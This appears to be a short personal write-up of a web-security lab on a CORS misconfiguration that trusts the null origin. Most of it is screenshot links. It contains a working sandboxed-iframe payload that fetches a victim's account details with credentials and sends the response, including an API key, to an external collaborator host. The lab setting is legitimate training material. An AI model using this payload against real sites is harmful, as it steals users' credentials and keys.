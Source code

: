 # [CORS] Lab: CORS vulnerability with trusted null origin (1)

---

![Untitled](%5BCORS%5D%20Lab%20CORS%20vulnerability%20with%20trusted%20null%20or%20a47a47abb50a48ce82d3e9aa5fd96448/Untitled.png)

![Untitled](%5BCORS%5D%20Lab%20CORS%20vulnerability%20with%20trusted%20null%20or%20a47a47abb50a48ce82d3e9aa5fd96448/Untitled%201.png)

this site is bugged

![Untitled](%5BCORS%5D%20Lab%20CORS%20vulnerability%20with%20trusted%20null%20or%20a47a47abb50a48ce82d3e9aa5fd96448/Untitled%202.png)

---

this is the code I used: 

```jsx
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a23000303750a3c817cf70a00780078.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://v400tvj4gbh15u39qzjv6cwv7mdd13ps.oastify.com/?key='+this.responseText;
};
</script>"></iframe>
```

this iframe would load and that the response and upload it to my collaborator. 

![Untitled](%5BCORS%5D%20Lab%20CORS%20vulnerability%20with%20trusted%20null%20or%20a47a47abb50a48ce82d3e9aa5fd96448/Untitled%203.png)

and now since we have the API key we can solve the lab. 

![Untitled](%5BCORS%5D%20Lab%20CORS%20vulnerability%20with%20trusted%20null%20or%20a47a47abb50a48ce82d3e9aa5fd96448/Untitled%204.png)